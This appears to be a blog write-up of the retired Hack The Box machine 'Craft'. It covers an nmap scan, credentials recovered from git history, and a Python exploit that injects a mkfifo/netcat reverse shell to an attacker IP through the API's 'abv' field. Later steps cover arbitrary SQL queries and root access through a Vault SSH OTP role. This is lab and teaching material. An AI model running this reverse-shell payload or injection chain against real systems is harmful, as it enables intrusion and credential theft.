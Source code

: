 Hey Guys This is chan and Today craft is retired from hack the box and here is my write up about craft.It is an medium linux machine.Craft is an easy one.it is https protoco.So let’s get jump.

# Craft

## Nmap Scan
```
root@ch4n:~# nmap -sC -sV 10.10.10.110

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-03 15:15 EST
Nmap scan report for 10.10.10.110
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (EdDSA)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page

So here if we check the web page there are two interesting things.These are ```https://api.craft.htb/api/``` and ```https://gogs.craft.htb/```

So if we look at https://gogs.craft.htb/ ,there is a git hub repo that’s call Craft/ craft/api and some user accounts



So I downloaded the repo with git clone but I got the error like this


So After some goggling about this error I found the way to fix.


So we got the file.I used git log -p to find the remove code


So here we got the creds.

```
dinesh:4aUh0A8PbVJxgd
```

this line is in test.py so we can exploit test.py using this creds.If we check test.py ,it is vulnerable to command injections.

Here is my modiefied code:
```
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

shell = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9001 >/tmp/f")"""

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print("Create  ABV brew")
brew_dict={}
brew_dict['abv'] = shell
brew_dict['name'] = 'ch4n'
brew_dict['brewer'] = 'ch4n'
brew_dict['style'] = 'ch4n'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

after running this file we got reverse shell

```
/opt/app # ls -la
total 44
drwxr-xr-x    5 root     root          4096 Jan  3 17:28 .
drwxr-xr-x    1 root     root          4096 Feb  9  2019 ..
drwxr-xr-x    8 root     root          4096 Feb  8  2019 .git
-rw-r--r--    1 root     root            18 Feb  7  2019 .gitignore
-rw-r--r--    1 root     root          1585 Feb  7  2019 app.py
drwxr-xr-x    5 root     root          4096 Feb  7  2019 craft_api
-rwxr-xr-x    1 root     root           673 Feb  8  2019 dbtest.py
drwxr-xr-x    2 root     root          4096 Feb  7  2019 tests
```

```
/opt/app # cat dbtest.py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
/opt/app #
```

after getting reverse shell I check dbtest.py then modified the script like this
```
#!/usr/bin/env python

import pymysql
from craft_api import settings
import sys
# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
       sql = sys.argv[1]
       cursor.execute(sql)
       results = cursor.fetchall()
       for i in results:
          print(i)

finally:
    connection.close()
```

Then check the tables in database then got user and pass


So check Gilfoyle user

```
gilfoyle : ZEU3N8WNM2rh4T
```

He has the repo call craft-infra.And also left ssh key

So I copied it to my machine then connect with ssh then grab the user flag


## Privillege Escalation
In gilfoyle repo there is a file called secret.sh it it interesting

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
It said enable ssh engine then create otp role for root you can read [this](https://www.vaultproject.io/docs/secrets/ssh)

We have .vault token so that we can login to the vault then create otp role for root

In here we are with root.

So that’s it guys hope you enjoy it:-)
